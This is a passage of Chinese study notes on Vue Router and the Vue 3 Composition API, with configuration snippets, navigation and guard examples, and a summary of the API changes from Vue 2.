   //创建router实例对象，去管理一组一组的路由规则
   const router = new VueRouter({
   	routes:[
   		{
   			path:'/about',
   			component:About
   		},
   		{
   			path:'/home',
   			component:Home
   		}
   	]
   })
   
   //暴露router
   export default router
   ```

   

4. 实现切换（active-class可配置高亮样式）

   ```
   <router-link active-class="active" to="/about">About</router-link>
   ```

   

5. 指定展示位置

   ```
   <router-view></router-view>
   ```

   

#### 2.几个注意点


1. 路由组件通常存放在`pages`文件夹，一般组件通常存放在`components`文件夹。
2. 通过切换，“隐藏”了的路由组件，默认是被销毁掉的，需要的时候再去挂载。
3. 每个组件都有自己的`$route`属性，里面存储着自己的路由信息。
4. 整个应用只有一个router，可以通过组件的`$router`属性获取到。

#### 3.多级路由（多级路由）


1. 配置路由规则，使用children配置项：

   ```
   routes:[
   	{
   		path:'/about',
   		component:About,
   	},
   	{
   		path:'/home',
   		component:Home,
   		children:[ //通过children配置子级路由
   			{
   				path:'news', //此处一定不要写：/news
   				component:News
   			},
   			{
   				path:'message',//此处一定不要写：/message
   				component:Message
   			}
   		]
   	}
   ]
   ```

   

2. 跳转（要写完整路径）：

   ```
   <router-link to="/home/news">News</router-link>
   ```

   

#### 4.路由的query参数


1. 传递参数

   ```
   <!-- 跳转并携带query参数，to的字符串写法 -->
   <router-link :to="/home/message/detail?id=666&title=你好">跳转</router-link>
   				
   <!-- 跳转并携带query参数，to的对象写法 -->
   <router-link 
   	:to="{
   		path:'/home/message/detail',
   		query:{
   		   id:666,
               title:'你好'
   		}
   	}"
   >跳转</router-link>
   ```

   

2. 接收参数：

   ```
   $route.query.id
   $route.query.title
   ```

   

#### 5.命名路由


1. 作用：可以简化路由的跳转。

2. 如何使用

   1. 给路由命名：

      ```
      {
      	path:'/demo',
      	component:Demo,
      	children:[
      		{
      			path:'test',
      			component:Test,
      			children:[
      				{
                            name:'hello' //给路由命名
      					path:'welcome',
      					component:Hello,
      				}
      			]
      		}
      	]
      }
      ```

      

   2. 简化跳转：

      ```
      <!--简化前，需要写完整的路径 -->
      <router-link to="/demo/test/welcome">跳转</router-link>
      
      <!--简化后，直接通过名字跳转 -->
      <router-link :to="{name:'hello'}">跳转</router-link>
      
      <!--简化写法配合传递参数 -->
      <router-link 
      	:to="{
      		name:'hello',
      		query:{
      		   id:666,
                  title:'你好'
      		}
      	}"
      >跳转</router-link>
      ```

      

#### 6.路由的params参数


1. 配置路由，声明接收params参数

   ```
   {
   	path:'/home',
   	component:Home,
   	children:[
   		{
   			path:'news',
   			component:News
   		},
   		{
   			component:Message,
   			children:[
   				{
   					name:'xiangqing',
   					path:'detail/:id/:title', //使用占位符声明接收params参数
   					component:Detail
   				}
   			]
   		}
   	]
   }
   ```

   

2. 传递参数

   ```
   <!-- 跳转并携带params参数，to的字符串写法 -->
   <router-link :to="/home/message/detail/666/你好">跳转</router-link>
   				
   <!-- 跳转并携带params参数，to的对象写法 -->
   <router-link 
   	:to="{
   		name:'xiangqing',
   		params:{
   		   id:666,
               title:'你好'
   		}
   	}"
   >跳转</router-link>
   ```

   

   > 特别注意：路由携带params参数时，若使用to的对象写法，则不能使用path配置项，必须使用name配置！

3. 接收参数：

   ```
   $route.params.id
   $route.params.title
   ```

   

#### 7.路由的props配置


 作用：让路由组件更方便的收到参数

```
{
	name:'xiangqing',
	path:'detail/:id',
	component:Detail,

	//第一种写法：props值为对象，该对象中所有的key-value的组合最终都会通过props传给Detail组件
	// props:{a:900}

	//第二种写法：props值为布尔值，布尔值为true，则把路由收到的所有params参数通过props传给Detail组件
	// props:true
	
	//第三种写法：props值为函数，该函数返回的对象中每一组key-value都会通过props传给Detail组件
	props(route){
		return {
			id:route.query.id,
			title:route.query.title
		}
	}
}
```


#### 8.`<router-link>`的replace属性


1. 作用：控制路由跳转时操作浏览器历史记录的模式
2. 浏览器的历史记录有两种写入方式：分别为`push`和`replace`，`push`是追加历史记录，`replace`是替换当前记录。路由跳转时候默认为`push`
3. 如何开启`replace`模式：`News`

#### 9.编程式路由导航


1. 作用：不借助` `实现路由跳转，让路由跳转更加灵活

2. 具体编码：

   ```
   //$router的两个API
   this.$router.push({
   	name:'xiangqing',
   		params:{
   			id:xxx,
   			title:xxx
   		}
   })
   
   this.$router.replace({
   	name:'xiangqing',
   		params:{
   			id:xxx,
   			title:xxx
   		}
   })
   this.$router.forward() //前进
   this.$router.back() //后退
   this.$router.go() //可前进也可后退 参数是number类型(正数为前进的步数,负数为后退的部署)
   ```

   

#### 10.缓存路由组件


1. 作用：让不展示的路由组件保持挂载，不被销毁。

2. 具体编码：

   ```
   <keep-alive include="News"> 
       <router-view></router-view>
   </keep-alive>
   ```

   

#### 11.两个新的生命周期钩子


1. 作用：路由组件所独有的两个钩子，用于捕获路由组件的激活状态。
2. 具体名字：
   1. `activated`路由组件被激活时触发。
   2. `deactivated`路由组件失活时触发。

#### 12.路由守卫


1. 作用：对路由进行权限控制

2. 分类：全局守卫、独享守卫、组件内守卫

3. 全局守卫:

   ```
   //全局前置守卫：初始化时执行、每次路由切换前执行
   router.beforeEach((to,from,next)=>{
   	console.log('beforeEach',to,from)
   	if(to.meta.isAuth){ //判断当前路由是否需要进行权限控制
   		if(localStorage.getItem('school') === 'atguigu'){ //权限控制的具体规则
   			next() //放行
   		}else{
   			alert('暂无权限查看')
   			// next({name:'guanyu'})
   		}
   	}else{
   		next() //放行
   	}
   })
   
   //全局后置守卫：初始化时执行、每次路由切换后执行
   router.afterEach((to,from)=>{
   	console.log('afterEach',to,from)
   	if(to.meta.title){ 
   		document.title = to.meta.title //修改网页的title
   	}else{
   		document.title = 'vue_test'
   	}
   })
   ```

   

4. 独享守卫:

   ```
   beforeEnter(to,from,next){
   	console.log('beforeEnter',to,from)
   	if(to.meta.isAuth){ //判断当前路由是否需要进行权限控制
   		if(localStorage.getItem('school') === 'atguigu'){
   			next()
   		}else{
   			alert('暂无权限查看')
   			// next({name:'guanyu'})
   		}
   	}else{
   		next()
   	}
   }
   ```

   

5. 组件内守卫：

   ```
   //进入守卫：通过路由规则，进入该组件时被调用
   beforeRouteEnter (to, from, next) {
   },
   //离开守卫：通过路由规则，离开该组件时被调用
   beforeRouteLeave (to, from, next) {
   }
   ```

   

#### 13.路由器的两种工作模式


1. 对于一个url来说，什么是hash值？—— #及其后面的内容就是hash值。
2. hash值不会包含在 HTTP 请求中，即：hash值不会带给服务器。
3. hash模式：
   1. 地址中永远带着#号，不美观 。
   2. 若以后将地址通过第三方手机app分享，若app校验严格，则地址会被标记为不合法。
   3. 兼容性较好。
4. history模式：
   1. 地址干净，美观 。
   2. 兼容性和hash模式相比略差。
   3. 应用部署上线时需要后端人员支持，解决刷新页面服务端404的问题。

​    https://www.npmjs.com/package/connect-history-api-fallback

### Vue UI组件库

**移动端**

Vant  https://vant-ui.github.io/vant/#/zh-CN

Cube UI https://didi.github.io/cube-ui/#/zh-CN

Mint UI https://mint-ui.github.io/#!/zh-cn

**移动端**

Elment UI  https://element.eleme.io/#/zh-CN

IView UI https://iviewui.com/

### Vue3

#### Vue3简介

- 2020年9月18日，Vue.js发布3.0版本，代号：One Piece（海贼王）
- 耗时2年多、[2600+次提交](https://github.com/vuejs/vue-next/graphs/commit-activity)、[30+个RFC](https://github.com/vuejs/rfcs/tree/master/active-rfcs)、[600+次PR](https://github.com/vuejs/vue-next/pulls?q=is%3Apr+is%3Amerged+-author%3Aapp%2Fdependabot-preview+)、[99位贡献者](https://github.com/vuejs/vue-next/graphs/contributors)
- github上的tags地址：https://github.com/vuejs/vue-next/releases/tag/v3.0.0

#### Vue3带来了什么

**1.性能的提升**

- 打包大小减少41%

- 初次渲染快55%, 更新渲染快133%

- 内存减少54%

  ......

**2.源码的升级**

- 使用Proxy代替defineProperty实现响应式

- 重写虚拟DOM的实现和Tree-Shaking

  ......

**3.拥抱TypeScript**

- Vue3可以更好的支持TypeScript

**4.新的特性**

1. Composition API（组合API）
   - setup配置
   - ref与reactive
   - watch与watchEffect
   - provide与inject
   - ......
2. 新的内置组件
   - Fragment
   - Teleport
   - Suspense
3. 其他改变
   - 新的生命周期钩子
   - data 选项应始终被声明为一个函数
   - 移除keyCode支持作为 v-on 的修饰符
   - ......

#### 使用 vue-cli 创建

官方文档：https://cli.vuejs.org/zh/guide/creating-a-project.html#vue-create

```
## 查看@vue/cli版本，确保@vue/cli版本在4.5.0以上
vue --version
## 安装或者升级你的@vue/cli
npm install -g @vue/cli
## 创建
vue create vue_test
## 启动
cd vue_test
npm run serve
```

#### 使用 vite 创建

官方文档：https://v3.cn.vuejs.org/guide/installation.html#vite

vite官网：[https://vitejs.cn](https://vitejs.cn/)

- 什么是vite？—— 新一代前端构建工具。
- 优势如下：
  - 开发环境中，无需打包操作，可快速的冷启动。
  - 轻量快速的热重载（HMR）。
  - 真正的按需编译，不再等待整个应用编译完成。


```
## 创建工程
npm init vite-app <project-name>
## 进入工程目录
cd <project-name>
## 安装依赖
npm install
## 运行
npm run dev
```

#### 常用 Composition API


官方文档: https://v3.cn.vuejs.org/guide/composition-api-introduction.html

##### 1.拉开序幕的setup

1. 理解：Vue3.0中一个新的配置项，值为一个函数。
2. setup是所有**Composition API（组合API）“ 表演的舞台 ”。
3. 组件中所用到的：数据、方法等等，均要配置在setup中。
4. setup函数的两种返回值：
   1. 若返回一个对象，则对象中的属性、方法, 在模板中均可以直接使用。（重点关注！）
   2. 若返回一个渲染函数：则可以自定义渲染内容。（了解）
5. 注意点：
   1. 尽量不要与Vue2.x配置混用
      - Vue2.x配置（data、methos、computed...）中**可以访问到**setup中的属性、方法。
      - 但在setup中**不能访问到**Vue2.x配置（data、methos、computed...）。
      - 如果有重名, setup优先。
   2. setup不能是一个async函数，因为返回值不再是return的对象, 而是promise, 模板看不到return对象中的属性。（后期也可以返回一个Promise实例，但需要Suspense和异步组件的配合）

##### 2.ref函数


- 作用: 定义一个响应式的数据

- 语法:

   

  ```
  const xxx = ref(initValue)
  ```

  - 创建一个包含响应式数据的**引用对象（reference对象，简称ref对象）**。
  - JS中操作数据： `xxx.value`
  - 模板中读取数据: 不需要.value，直接：`{{xxx}}`

- 备注：

  - 接收的数据可以是：基本类型、也可以是对象类型。
  - 基本类型的数据：响应式依然是靠`Object.defineProperty()`的`get`与`set`完成的。
  - 对象类型的数据：内部 *“ 求助 ”* 了Vue3.0中的一个新函数—— `reactive`函数。

##### 3.reactive函数


- 作用: 定义一个**对象类型**的响应式数据（基本类型不要用它，要用`ref`函数）
- 语法：`const 代理对象= reactive(源对象)`接收一个对象（或数组），返回一个**代理对象（Proxy的实例对象，简称proxy对象）**
- reactive定义的响应式数据是“深层次的”。
- 内部基于 ES6 的 Proxy 实现，通过代理对象操作源对象内部数据进行操作。

##### 4.Vue3.0中的响应式原理

**vue2.x的响应式**

- 实现原理：

  - 对象类型：通过`Object.defineProperty()`对属性的读取、修改进行拦截（数据劫持）。

  - 数组类型：通过重写更新数组的一系列方法来实现拦截。（对数组的变更方法进行了包裹）。

    ```
    Object.defineProperty(data, 'count', {
        get () {}, 
        set () {}
    })
    ```

    

- 存在问题：

  - 新增属性、删除属性, 界面不会更新。
  - 直接通过下标修改数组, 界面不会自动更新。

**Vue3.0的响应式**

- 实现原理:

  - 通过Proxy（代理）: 拦截对象中任意属性的变化, 包括：属性值的读写、属性的添加、属性的删除等。

  - 通过Reflect（反射）: 对源对象的属性进行操作。

  - MDN文档中描述的Proxy与Reflect：

    - Proxy：https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Proxy

    - Reflect：https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Reflect

      ```
      new Proxy(data, {
          // 拦截读取属性值
          get (target, prop) {
              return Reflect.get(target, prop)
          },
          // 拦截设置属性值或添加新属性
          set (target, prop, value) {
              return Reflect.set(target, prop, value)
          },
          // 拦截删除属性
          deleteProperty (target, prop) {
              return Reflect.deleteProperty(target, prop)
          }
      })
      
      proxy.name = 'tom'   
      ```

##### 5.reactive对比ref

- 从定义数据角度对比：
  - ref用来定义：**基本类型数据**。
  - reactive用来定义：**对象（或数组）类型数据**。
  - 备注：ref也可以用来定义**对象（或数组）类型数据**, 它内部会自动通过`reactive`转为**代理对象**。
- 从原理角度对比：
  - ref通过`Object.defineProperty()`的`get`与`set`来实现响应式（数据劫持）。
  - reactive通过使用**Proxy**来实现响应式（数据劫持）, 并通过**Reflect**操作**源对象**内部的数据。
- 从使用角度对比：
  - ref定义的数据：操作数据**需要**`.value`，读取数据时模板中直接读取**不需要**`.value`。
  - reactive定义的数据：操作数据与读取数据：**均不需要**`.value`。

##### 6.setup的两个注意点

- setup执行的时机
  - 在beforeCreate之前执行一次，this是undefined。
- setup的参数
  - props：值为对象，包含：组件外部传递过来，且组件内部声明接收了的属性。
  - context：上下文对象
    - attrs: 值为对象，包含：组件外部传递过来，但没有在props配置中声明的属性, 相当于 `this.$attrs`。
    - slots: 收到的插槽内容, 相当于 `this.$slots`。
    - emit: 分发自定义事件的函数, 相当于 `this.$emit`。

##### 7.计算属性与监视

**1.computed函数**

- 与Vue2.x中computed配置功能一致

- 写法

  ```
  import {computed} from 'vue'
  
  setup(){
      ...
  	//计算属性——简写
      let fullName = computed(()=>{
          return person.firstName + '-' + person.lastName
      })
      //计算属性——完整
      let fullName = computed({
          get(){
              return person.firstName + '-' + person.lastName
          },
          set(value){
              const nameArr = value.split('-')
              person.firstName = nameArr[0]
              person.lastName = nameArr[1]
          }
      })
  }
  ```

**2.watch函数**

- 与Vue2.x中watch配置功能一致

- 两个小“坑”：

  - 监视reactive定义的响应式数据时：oldValue无法正确获取、强制开启了深度监视（deep配置失效）。
  - 监视reactive定义的响应式数据中某个属性时：deep配置有效。

  ```
  //情况一：监视ref定义的响应式数据
  watch(sum,(newValue,oldValue)=>{
  	console.log('sum变化了',newValue,oldValue)
  },{immediate:true})
  
  //情况二：监视多个ref定义的响应式数据
  watch([sum,msg],(newValue,oldValue)=>{
  	console.log('sum或msg变化了',newValue,oldValue)
  }) 
  
  /* 情况三：监视reactive定义的响应式数据
  			若watch监视的是reactive定义的响应式数据，则无法正确获得oldValue！！
  			若watch监视的是reactive定义的响应式数据，则强制开启了深度监视 
  */
  watch(person,(newValue,oldValue)=>{
  	console.log('person变化了',newValue,oldValue)
  },{immediate:true,deep:false}) //此处的deep配置不再奏效
  
  //情况四：监视reactive定义的响应式数据中的某个属性
  watch(()=>person.job,(newValue,oldValue)=>{
  	console.log('person的job变化了',newValue,oldValue)
  },{immediate:true,deep:true}) 
  
  //情况五：监视reactive定义的响应式数据中的某些属性
  watch([()=>person.job,()=>person.name],(newValue,oldValue)=>{
  	console.log('person的job变化了',newValue,oldValue)
  },{immediate:true,deep:true})
  
  //特殊情况
  watch(()=>person.job,(newValue,oldValue)=>{
      console.log('person的job变化了',newValue,oldValue)
  },{deep:true}) //此处由于监视的是reactive素定义的对象中的某个属性，所以deep配置有效
  ```

**3.watchEffect函数**

- watch的套路是：既要指明监视的属性，也要指明监视的回调。

- watchEffect的套路是：不用指明监视哪个属性，监视的回调中用到哪个属性，那就监视哪个属性。

- watchEffect有点像computed：

  - 但computed注重的计算出来的值（回调函数的返回值），所以必须要写返回值。
  - 而watchEffect更注重的是过程（回调函数的函数体），所以不用写返回值。

  ```
  //watchEffect所指定的回调中用到的数据只要发生变化，则直接重新执行回调。
  watchEffect(()=>{
      const x1 = sum.value
      const x2 = person.age
      console.log('watchEffect配置的回调执行了')
  })
  ```

##### 8.生命周期

**vue2.x的生命周期**


**vue3.0的生命周期**


- Vue3.0中可以继续使用Vue2.x中的生命周期钩子，但有有两个被更名：
  - `beforeDestroy`改名为 `beforeUnmount`
  - `destroyed`改名为 `unmounted`
- Vue3.0也提供了 Composition API 形式的生命周期钩子，与Vue2.x中钩子对应关系如下：
  - `beforeCreate`===>`setup()`
  - `created`=======>`setup()`
  - `beforeMount` ===>`onBeforeMount`
  - `mounted`=======>`onMounted`
  - `beforeUpdate`===>`onBeforeUpdate`
  - `updated` =======>`onUpdated`
  - `beforeUnmount` ==>`onBeforeUnmount`
  - `unmounted` =====>`onUnmounted`

##### 9.自定义hook函数

- 什么是hook？—— 本质是一个函数，把setup函数中使用的Composition API进行了封装。
- 类似于vue2.x中的mixin。
- 自定义hook的优势: 复用代码, 让setup中的逻辑更清楚易懂。

##### 10.toRef

- 作用：创建一个 ref 对象，其value值指向另一个对象中的某个属性。
- 语法：`const name = toRef(person,'name')`
- 应用: 要将响应式对象中的某个属性单独提供给外部使用时。
- 扩展：`toRefs` 与`toRef`功能一致，但可以批量创建多个 ref 对象，语法：`toRefs(person)`

#### 其它 Composition API

##### 1.shallowReactive 与 shallowRef


- shallowReactive：只处理对象最外层属性的响应式（浅响应式）。
- shallowRef：只处理基本数据类型的响应式, 不进行对象的响应式处理。
- 什么时候使用?
  - 如果有一个对象数据，结构比较深, 但变化时只是外层属性变化 ===> shallowReactive。
  - 如果有一个对象数据，后续功能不会修改该对象中的属性，而是生新的对象来替换 ===> shallowRef。

##### 2.readonly 与 shallowReadonly


- readonly: 让一个响应式数据变为只读的（深只读）。
- shallowReadonly：让一个响应式数据变为只读的（浅只读）。
- 应用场景: 不希望数据(尤其是这个数据是来自与其他组件时)被修改时。

##### 3.toRaw 与 markRaw


- toRaw：
  - 作用：将一个由`reactive`生成的**响应式对象**转为**普通对象**。
  - 使用场景：用于读取响应式对象对应的普通对象，对这个普通对象的所有操作，不会引起页面更新。
- markRaw：
  - 作用：标记一个对象，使其永远不会再成为响应式对象。
  - 应用场景:
    1. 有些值不应被设置为响应式的，例如复杂的第三方类库等。
    2. 当渲染具有不可变数据源的大列表时，跳过响应式转换可以提高性能。

##### 4.customRef


- 作用：创建一个自定义的 ref，并对其依赖项跟踪和更新触发进行显式控制。

- 实现防抖效果：

  ```
  <template>
  	<input type="text" v-model="keyword">
  	<h3>{{keyword}}</h3>
  </template>
  
  <script>
  	import {ref,customRef} from 'vue'
  	export default {
  		name:'Demo',
  		setup(){
  			// let keyword = ref('hello') //使用Vue准备好的内置ref
  			//自定义一个myRef
  			function myRef(value,delay){
  				let timer
  				//通过customRef去实现自定义
  				return customRef((track,trigger)=>{
  					return{
  						get(){
  							track() //告诉Vue这个value值是需要被“追踪”的
  							return value
  						},
  						set(newValue){
  							clearTimeout(timer)
  							timer = setTimeout(()=>{
  								value = newValue
  								trigger() //告诉Vue去更新界面
  							},delay)
  						}
  					}
  				})
  			}
  			let keyword = myRef('hello',500) //使用程序员自定义的ref
  			return {
  				keyword
  			}
  		}
  	}
  </script>
  ```

##### 5.provide 与 inject


- 作用：实现**祖与后代组件间**通信

- 套路：父组件有一个 `provide` 选项来提供数据，后代组件有一个 `inject` 选项来开始使用这些数据

- 具体写法：

  1. 祖组件中：

     ```
     setup(){
         ......
         let car = reactive({name:'奔驰',price:'40万'})
         provide('car',car)
         ......
     }
     ```

     

  2. 后代组件中：

     ```
     setup(props,context){
         ......
         const car = inject('car')
         return {car}
         ......
     }
     ```

##### 6.响应式数据的判断

- isRef: 检查一个值是否为一个 ref 对象
- isReactive: 检查一个对象是否是由 `reactive` 创建的响应式代理
- isReadonly: 检查一个对象是否是由 `readonly` 创建的只读代理
- isProxy: 检查一个对象是否是由 `reactive` 或者 `readonly` 方法创建的代理

### Composition API 的优势


#### 1.Options API 存在的问题

使用传统OptionsAPI中，新增或者修改一个需求，就需要分别在data，methods，computed里修改 。


#### 2.Composition API 的优势


我们可以更加优雅的组织我们的代码，函数。让相关功能的代码更加有序的组织在一起。


### 新的组件


#### 1.Fragment


- 在Vue2中: 组件必须有一个根标签
- 在Vue3中: 组件可以没有根标签, 内部会将多个标签包含在一个Fragment虚拟元素中
- 好处: 减少标签层级, 减小内存占用

#### 2.Teleport


- 什么是Teleport？—— `Teleport` 是一种能够将我们的**组件html结构**移动到指定位置的技术。

  ```
  <teleport to="移动位置">
  	<div v-if="isShow" class="mask">
  		<div class="dialog">
  			<h3>我是一个弹窗</h3>
  			<button @click="isShow = false">关闭弹窗</button>
  		</div>
  	</div>
  </teleport>
  ```

  

#### 3.Suspense


- 等待异步组件时渲染一些额外内容，让应用有更好的用户体验

- 使用步骤：

  - 异步引入组件

    ```
    import {defineAsyncComponent} from 'vue'
    const Child = defineAsyncComponent(()=>import('./components/Child.vue'))
    ```

    

  - 使用`Suspense`包裹组件，并配置好`default` 与 `fallback`

    ```
    <template>
        <div class="app">
            <h3>我是App组件</h3>
            <Suspense>
                <template v-slot:default>
                    <Child/>
                </template>
                <template v-slot:fallback>
                    <h3>加载中.....</h3>
                </template>
            </Suspense>
        </div>
    </template>
    ```

    

### 其他


#### 1.全局API的转移


- Vue 2.x 有许多全局 API 和配置。

  - 例如：注册全局组件、注册全局指令等。

    ```
    //注册全局组件
    Vue.component('MyButton', {
      data: () => ({
        count: 0
      }),
      template: '<button @click="count++">Clicked {{ count }} times.</button>'
    })
    
    //注册全局指令
    Vue.directive('focus', {
      inserted: el => el.focus()
    }
    ```

    

- Vue3.0中对这些API做出了调整：

  - 将全局的API，即：`Vue.xxx`调整到应用实例（`app`）上

    | 2.x 全局 API（`Vue`） | 3.x 实例 API (`app`) | | ------------------------- | ------------------------------------------- | | Vue.config.xxxx | app.config.xxxx | | Vue.config.productionTip | **移除** | | Vue.component | app.component | | Vue.directive | app.directive | | Vue.mixin | app.mixin | | Vue.use | app.use | | Vue.prototype | app.config.globalProperties |

#### 2.其他改变


- data选项应始终被声明为一个函数。

- 过度类名的更改：

  - Vue2.x写法

    ```
    .v-enter,
    .v-leave-to {
      opacity: 0;
    }
    .v-leave,
    .v-enter-to {
      opacity: 1;
    }
    ```

    

  - Vue3.x写法

    ```
    .v-enter-from,
    .v-leave-to {
      opacity: 0;
    }
    
    .v-leave-from,
    .v-enter-to {
      opacity: 1;
    }
    ```

    

- **移除**keyCode作为 v-on 的修饰符，同时也不再支持`config.keyCodes`

- **移除**`v-on.native`修饰符

  - 父组件中绑定事件

    ```
    <my-component
      v-on:close="handleComponentEvent"
      v-on:click="handleNativeClickEvent"
    />
    ```

    

  - 子组件中声明自定义事件

    ```
    <script>
      export default {
        emits: ['close']
      }
    </script>
    ```

    

- **移除**过滤器（filter）

  > 过滤器虽然这看起来很方便，但它需要一个自定义语法，打破大括号内表达式是 “只是 JavaScript” 的假设，这不仅有学习成本，而且有实现成本！建议用方法调用或计算属性去替换过滤器。

- ......